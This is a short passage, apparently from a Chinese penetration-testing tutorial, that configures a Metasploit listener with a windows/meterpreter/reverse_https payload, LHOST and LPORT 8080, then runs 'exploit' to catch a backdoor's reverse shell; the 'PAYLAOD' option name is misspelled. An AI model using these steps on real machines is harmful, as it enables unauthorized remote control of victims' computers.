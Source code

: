 我们将更改这些设置以适应我们的要求。运行以下命令:

```
> set PAYLAOD windows/meterpreter/reverse_https
> set LHOST <IP>
> set LPORT 8080
> show options
```

这里的<ip>是创建后门时使用的 IP</ip>

![](img/a1fbf61633f183f716fb9b28f1949dbd.png)

键入`exploit`开始监听端口

```
> exploit
```

![](img/32c849d5631081b2f0870b4d35df7172.png)
